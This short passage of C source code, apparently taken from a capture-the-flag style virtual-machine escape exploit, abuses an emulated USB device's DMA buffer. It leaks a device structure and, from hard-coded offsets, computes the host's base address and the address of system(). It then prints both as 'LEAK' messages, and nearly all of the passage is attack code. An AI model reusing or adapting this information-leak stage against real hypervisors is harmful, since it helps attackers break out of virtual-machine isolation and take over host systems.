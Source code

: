 ```c
    init_state();
    sleep(2);
    set_length(0x2000,0x80);
    sleep(2);
    do_copy_read();
    sleep(2);
    struct USBDevice* usb_device_tmp=dmabuf+0x2004;
    struct USBDevice usb_device;
    memcpy(&usb_device,usb_device_tmp,sizeof(USBDevice));
    uint64_t dev_addr=usb_device.ep_ctl.dev;
    uint64_t *tmp=dmabuf+0x24f4;
    long long base=*tmp;
    if(base == 0){
        printf("INIT DOWN,DO IT AGAIN");
        return 0;
}
    base-=0xee5480-0x2668c0;
    uint64_t system=base+0x2d9610;
    puts("\\\\\\\\\\\\\\\\\\\\\\\\");
    printf("LEAK BASE ADDRESS:%llx!\n",base);
    printf("LEAK SYSTEM ADDRESS:%llx!\n",system);
    puts("\\\\\\\\\\\\\\\\\\\\\\\\");
}
```